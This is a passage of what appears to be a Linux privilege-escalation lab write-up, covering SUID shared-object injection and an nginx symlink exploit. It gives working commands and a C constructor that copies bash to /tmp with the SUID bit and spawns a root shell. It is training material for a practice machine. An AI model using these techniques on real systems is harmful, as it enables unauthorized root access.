 ## Task 11 SUID (Shared Object Injection)

```bash
find / -type f -perm -4000 2>/dev/null
# /usr/local/bin/suid-so
# /usr/local/bin/suid-env
# /usr/local/bin/suid-env2
strace suid-so 2>&1 | egrep -i '(open|access|no such file)'
# open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

```bash
mkdir /home/user/.config
cd /home/user/.config/
vim libcalc.c
# #include <stdlib.h>

# static void inject() __attribute__((constructor));

# void inject() {
#     system("cp /bin/bash /tmp/ && chmod +s /tmp/bash && /tmp/bash -p");
# }
gcc -fPIC -shared -o libcalc.so libcalc.c
suid-so
```

## Task 12 SUID (Symlinks)

```bash
dpkg -l | grep nginx
# ii  nginx-common                        1.6.2-5+deb8u2~bpo70+1       small, powerful, scalable web/proxy server - common files
# ii  nginx-full                          1.6.2-5+deb8u2~bpo70+1       nginx web/proxy server (standard version)
su - root
su - www-data
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
```

```
su - root
invoke-rc.d nginx rotate >/dev/null 2&1
```

#### What CVE is being exploited in this task?

![](<.gitbook/assets/Screenshot from 2021-09-10 09-32-45.png>)
